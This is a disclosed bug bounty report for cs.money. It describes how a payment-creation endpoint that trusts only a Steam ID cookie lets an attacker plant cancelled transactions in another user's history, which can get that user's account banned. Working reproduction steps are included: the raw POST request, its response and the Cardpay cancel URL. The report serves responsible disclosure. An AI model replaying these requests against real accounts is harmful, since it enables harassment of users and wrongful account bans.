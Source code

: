 # Attacker can generate cancelled transctions in a user's transaction history using only Steam ID

## Report Details
- **Report ID**: 1021776
- **URL**: https://hackerone.com/reports/1021776
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-10-29T14:20:09.241Z
- **Disclosed**: 2021-02-03T13:05:45.548Z

## Reporter
- **Username**: pmnh
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: cs_money

## Vulnerability Information
## Summary:
The API endpoint `/create-payment` requires only the steam ID of the account to create the payment. When this endpoint is called using the `cardpay` flow, it returns a transaction ID on the Cardpay system. The attacker can access this transaction, and immediately cancel it (or pay it ;) ), which leads to a visible cancelled transaction in the cs.money user's transaction history.

Although there is no impact to the user, they will certainly be confused.

## Steps To Reproduce:
Invoke the API call `/create-payment` as below:

```
POST https://cs.money/create-payment HTTP/1.1
Host: cs.money
Content-Type: application/json;charset=UTF-8
Cookie: steamid=████████; 

{"merchant":"cardpay","amount":10}
```

You will get a response with a Cardpay order ID and URL:
```
HTTP/1.1 200 OK
...
{"merchant":"cardpay","orderId":2034944,"success":true,"url":"https://cardpay.com/MI/payment.html?uuid=DaG438Bda6GC13h5db1bGD01"}
```

You can then cancel the payment by hitting the Cardpay cancel URL:
```
https://cardpay.com/MI/cancel.html?uuid=DaG438Bda6GC13h5db1bGD01
```

This will result in a cancelled transaction showing in the user's transaction history of the amount specified by the attacker. The attacker could repeat this numerous times until the account is banned by cs.money (this occurred on one of my test accounts).

## Impact

Confusion for the user due to the ability to create many cancelled transactions, potentially leading to the account being banned.

## Attachments
No attachments

